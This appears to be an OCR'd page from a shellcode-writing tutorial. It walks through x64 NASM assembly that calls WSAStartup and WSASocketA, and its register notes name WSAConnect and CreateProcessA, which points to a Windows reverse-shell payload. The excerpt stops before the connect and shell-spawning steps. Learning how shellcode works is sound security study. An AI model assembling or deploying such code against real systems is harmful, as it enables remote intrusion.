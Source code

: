 ```nasm
;r14 = CreateProcessA
;r14 = ws2_32
;r15 = WSAStartup
;rsi = WSASocketA
;rdi = WSAConnect
```

***Initiate WSAStartup***
-

```nasm
; Call WSAStartup
    xor rcx, rcx
    mov cx, 0x198               ; Defines the size of the buffer that will be allocated on the stack to hold the WSADATA structure
    sub rsp, rcx                ; Reserve space for lpWSDATA structure
    lea rdx, [rsp]              ; Assign address of lpWSAData to RDX - 2nd param
    mov cx, 0x202               ; Assign 0x202 to wVersionRequired as 1st parameter
    sub rsp, 0x28               ; stack alignment
    call r15                    ; Call WSAStartup
    add rsp, 0x30               ; stack alignment
```

Awesome, we're starting to setup our socket!  Now the fun begins...

Also, here's the API we're loading:

```c++
int WSAStartup(
  [in]  WORD      wVersionRequired,
  [out] LPWSADATA lpWSAData
);
```

***Create a Socket!!!***
-

```nasm
 ; Create a socket 
    xor rcx, rcx           
    mov cl, 2                   ; AF = 2 - 1st param
    xor rdx, rdx          
    mov dl, 1                   ; Type = 1 - 2nd param
    xor r8, r8              
    mov r8b, 6                  ; Protocol = 6 - 3rd param
    xor r9, r9                  ; lpProtocolInfo = 0 - fourth param
    mov [rsp+0x20], r9          ; 0 = 5th param
    mov [rsp+0x28], r9          ; 0 = 6th param
    call rsi                    ; Call WSASocketA 
    mov r12, rax                ; Save the returned socket value
    add rsp, 0x30           
```

**Here's the API:**

```c++
SOCKET WSAAPI WSASocketA(
  [in] int                 af,
  [in] int                 type,
  [in] int                 protocol,
  [in] LPWSAPROTOCOL_INFOA lpProtocolInfo,
  [in] GROUP               g,
  [in] DWORD               dwFlags
);
```
